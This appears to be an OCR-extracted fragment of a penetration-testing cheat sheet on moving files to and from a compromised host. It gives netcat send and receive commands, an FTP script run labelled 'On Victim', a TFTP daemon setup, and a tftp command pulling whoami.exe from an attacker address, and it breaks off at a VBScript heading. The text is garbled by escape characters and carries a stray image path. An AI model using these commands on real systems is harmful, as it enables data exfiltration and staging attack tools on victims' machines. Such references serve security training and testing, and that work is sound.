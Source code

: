 

#### Exectue Script 

\(On Victim\)
ftp \-v \-n \-s:ftp\.txt

## Netcat 




\-\-\- 




### Receiving Shell 


nc \-l \-p 1234 \>out\.file


\-\-\- 




### Sending Shell 


nc \-w 3 192\.168\.0\.1 1234 \<out\.file

## TFTP 




\-\-\- 




### Start TFTP Daemon (Folder /var/tftp) 


atftpd \-\-daemon \-\-port 69 /var/tftp


\-\-\- 




### Transfer Files 


tftp \-i 192\.168\.0\.1 GET whoami\.exe

## VBScript 




\-\-\- 
